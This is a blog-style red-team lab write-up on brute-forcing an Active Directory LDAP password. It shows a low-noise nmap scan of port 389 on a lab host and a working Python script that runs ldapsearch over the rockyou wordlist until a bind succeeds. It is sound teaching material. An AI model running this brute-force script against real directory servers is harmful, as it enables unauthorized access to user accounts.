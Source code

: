 ```yaml
---
title: Brute Forcing Active Directory LDAP using a Custom Python Script
date: 2025-01-26
draft: false
author: Alex Jenkins
---
```



# Red Team
## Introduction
In this article we will perform a password guessing attack from the perspective of the adversary. The process begins by using **nmap** to scan the host and determine if the Lightweight Directory Access Protocol (LDAP) port is open. Once the LDAP service has been confirmed, a custom python script will be used to brute force a user's password with **ldapsearch**.

-  what is LDAP bind (related to ldapsearch)
- developing a python script

## Assumptions
For this red team exercise, it is assumed that the adversary has performed the initial reconnaissance stage. During that engagement they would have acquired an Active Directory (AD) username, discovered a domain, and located the host's IP address. The next logical step for the adversary is to identify a network entry point.

## LDAP Discovery
As discussed, the tool used to discover the LDAP port status will be nmap. Efforts have been made to ensure the nmap scan does not create too much noise - only scanning the relevant port and address, and revoking ICMP scans. A full example of the scan used during this engagement, including my specific output, and a description of each command is shown below:


**Input**

```
nmap -sT -Pn -p389 192.168.1.138
```

**Output**

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-27 20:00 GMT
Nmap scan report for 192.168.1.138
Host is up (0.00049s latency).

PORT    STATE SERVICE
389/tcp open  ldap

Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

**Description**

| Flag | Description                                                                                                                                                                                               |
| ---- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| sT   | Performs a full three-way TCP handshake, mimicking the normal connection flow of applications and hopefully blending in with legitimate traffic.                                                          |
| Pn   | Based on the assumptions, host discovery is not required and ICMP requests can be deactivated. Ping scans are generally detected and blocked by firewalls so this is generally a good idea in most cases. |
| p389 | Only scan the port of interest. Doing so creates less noise on the host than scanning the top 1,000 most common ports, with the additional benefit of being a faster scan overall.                        |
## Brute Force

```python
import subprocess

password_list = '/usr/share/wordlists/rockyou.txt'
username = 'scarab'
server = '192.168.1.138'

command = ['ldapsearch', 
           '-H', f'ldap://{server}',
           '-D', f'{username}',
           '-b', 'DC=backyard,DC=local',
           ]

with open(password_list) as wordlist:
    
    for password in wordlist:
    
        password = password.strip() # remove whitespace and newlines
        print(f'Trying {password}', end='\r')
        
        command += ['-w', password]
        output = subprocess.run(command, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        
        if output.returncode == 0: # LDAP auth success
            print(f'Matched {password}')
            break
```

Essentially all this python script does is use subprocess to run the ldapsearch tool repeatedly until it finds a password match. It's not super intelligent, if it doesn't find a match it won't tell you - we could modify it to do that but for this exercise this is fine. The script checks for the error code 0, which indicates a successful authentication and prints the matched password. The output is suppressed, but can be added back in by modifying the subprocess.run() function if required.

Now for the command. This is the command that's being run (with all the variables replaced with real values):

``` bash
ldapsearch -H "ldap://192.168.1.138" -D "scarab" -b "DC=backyard,DC=local" -w "abc123"
```

ldapsearch is used to query an LDAP server for directory information. In this case it's being used to validate credentials because a successful login will return a code with the value 0. For reference, any failed logins will return the following error message (which was how I configured the script initially before discovering the successful logon code):

```
ldap_bind: Invalid credentials (49)
```

The command does the following:

| Flag | Description                                                                                                                                            |
| ---- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| -H   | Used to specify the LDAP server to connect with. This must be prefixed with ldap://, and followed with an IP address or domain name.                   |
| -D   | The Distinguished Name (DN) of the user aka the username.                                                                                              |
| -w   | The password used to authenticate. Populated using a word-list in the for loop.                                                                        |
| -b   | The **base** Domain Name (DN) from which to begin the search. In this case I've chosen the root domain. Omitting this will result in "no such object". |

And that's it. The weak password policy and lack of lockout mechanisms made this a trivial exercise, allowing limitless attempts to authenticate into the user despite an array of failed logins.

I hope you enjoyed this example of password guessing using LDAP in Active Directory. The purpose of this was to be an introductory exercise using readily available services upon setup of an AD server. This is a trivial example of password guessing, but I feel it has effectively showcased this MITRE technique.

This was new to me and I had fun building the python script and learning a little bit about LDAP and how the ldapsearch tool works. 